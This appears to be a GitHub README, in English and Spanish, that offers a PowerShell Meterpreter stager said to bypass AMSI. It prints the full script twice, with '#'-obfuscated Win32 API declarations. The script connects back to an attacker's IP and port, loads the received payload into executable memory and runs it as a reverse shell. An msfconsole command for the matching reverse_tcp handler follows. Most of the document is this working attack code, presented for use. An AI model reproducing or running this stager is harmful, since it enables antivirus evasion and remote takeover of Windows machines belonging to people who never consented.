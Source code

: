 # Meterpreter-Powershell

This repo contains a simple meterpreter session in powershell bypassing amsi

1. [English](#English "Goto English")
2. [Code Meterpreter](#Code Meterpreter "Goto Code Meterpreter")
3. [Use](#Use "Goto Use")
4. [Spanish](#Spanish "Goto Spanish")
5. [Codigo Meterpreter](#Codigo Meterpreter "Goto Codigo Meterpreter")
6. [Uso](#Uso "Goto Uso")
7. [Video Poc](#Video Poc "Goto Video Poc")

## English

# Code Meterpreter #

[!] This code meterpreter only work with Powershell 32 bits
Path Powershell 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Replace "192.168.56.1" and 443, for your data

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Use #
Start msfconsole with next command, replace "YourIp" and "YourPort" for your data
```
msfconsole -x "set lhost YourIp; set lport YourPort; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

## Spanish 

# Codigo Meterpreter #

[!] Este codigo de Meterpreter solo funciona en la PowerShell de 32 Bits 
Ruta Powershell de 32 bits = %WinDir%\syswow64\windowspowershell\v1.0\powershell.exe
Reemplaza "192.168.56.1 y 443, por tus datos

```
$ip = "192.168.56.1"; $port = 443; $c = @"
[D#ll#Imp#ort("ker#ne#l32.#dll")] publi#c static e#xtern In#tPtr Virt#ualAl#loc(Int#Ptr w, ui#nt x, ui#nt y, ui#nt z);
[Dl#lI##mpor#t("kern#el32.d#ll")] pub#lic st#atic ex#tern Int#Ptr Cr#eate#Thr#ead(Int#Ptr u, u#int v, IntP#tr w, Int#Ptr x, ui#nt y, IntPtr z);
"@.replace("#", "")
try{$s = New-Object System.Net.Sockets.Socket ([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
$s.Connect($ip, $port) | out-null; $p = [Array]::CreateInstance("byte", 4); $x = $s.Receive($p) | out-null; $z = 0
$y = [Array]::CreateInstance("byte", [BitConverter]::ToInt32($p,0)+5); $y[0] = 0xBF
while ($z -lt [BitConverter]::ToInt32($p,0)) { $z += $s.Receive($y,$z+5,1,[System.Net.Sockets.SocketFlags]::None) }
for ($i=1; $i -le 4; $i++) {$y[$i] = [System.BitConverter]::GetBytes([int]$s.Handle)[$i-1]}
$t = Add-Type -memberDefinition $c -Name "Win32" -namespace Win32Functions -passthru; $x=$t::VirtualAlloc(0,$y.Length,0x3000,0x40)
[System.Runtime.InteropServices.Marshal]::Copy($y, 0, [IntPtr]($x.ToInt32()), $y.Length)
$t::CreateThread(0,0,$x,0,0,0) | out-null; Start-Sleep -Second 86400;  Start-Sleep -Second 86400; Start-Sleep -Second 86400; Start-Sleep -Second 86400}catch{}
```

# Uso #
Inicia msfconsole con el siguiente comando, reemplaza "TuIp" y "TuPuerto" por tus datos respectivos
```
msfconsole -x "set lhost TuIp; set lport TuPuerto; set payload windows/meterpreter/reverse_tcp; set EnableStageEncoding true; set StageEncoder x86/xor_dynamic; run"
```

# Video Poc #



